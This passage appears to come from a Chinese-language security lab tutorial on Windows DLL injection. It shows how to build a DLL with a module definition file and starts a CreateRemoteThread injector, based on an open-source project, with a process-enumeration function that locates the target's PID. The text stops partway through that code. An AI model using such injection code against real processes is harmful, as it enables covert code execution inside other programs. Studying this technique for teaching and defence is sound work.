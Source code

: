 - 在同`base.c`的目录下建立模块定义文件`exp.def`。
    ```c
    LIBRARY   baselib
    EXPORTS
        lib_function
    ```
- 右键项目，选择`重新生成`，寻找新生成的`baselib.dll`的位置(通过生成时间判断)，一般位于整个解决项目的`Debug`目录下，用于后面的步骤。
  
  <img src="imgs/rebuild.png" width=70%>

### 4.2 远程线程劫持方式

- 使用[github上的开源项目](https://github.com/fdiskyou/injectAllTheThings)中的CreateRemoteThread()方法实现
  - 在vs2019下新建项目`dllinject`
  - 添加头文件为`fheaders.h`，参考项目中的[fheaders](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/fheaders.h)的用法。
    ```c
    #pragma once
    #include <stdio.h>
    #include <Windows.h>
    #include <tlhelp32.h>
    // Technique 1: CreateRemoteThread
    DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId);
    ```
  - 添加`dllinject.c`文件，参考项目中的[t_CreateRemoteThread.cpp](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/t_CreateRemoteThread.cpp)用法。其中`findPidByName`函数是用于进程遍历，使得攻击程序可以自己遍历进程得到目标程序的pid。`main`函数中dll应该为**绝对路径**。
    
    ```c
    #pragma warning(disable:4996)
    #include <stdio.h>
    #include <Windows.h>
    #include <tlhelp32.h>
    #include "fheaders.h"

    // 用于进程遍历，使得攻击程序可以自己遍历进程得到目标程序的pid 
    DWORD findPidByName(char* pname)
    {
        HANDLE h;
        PROCESSENTRY32 procSnapshot;
        h = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        procSnapshot.dwSize = sizeof(PROCESSENTRY32);
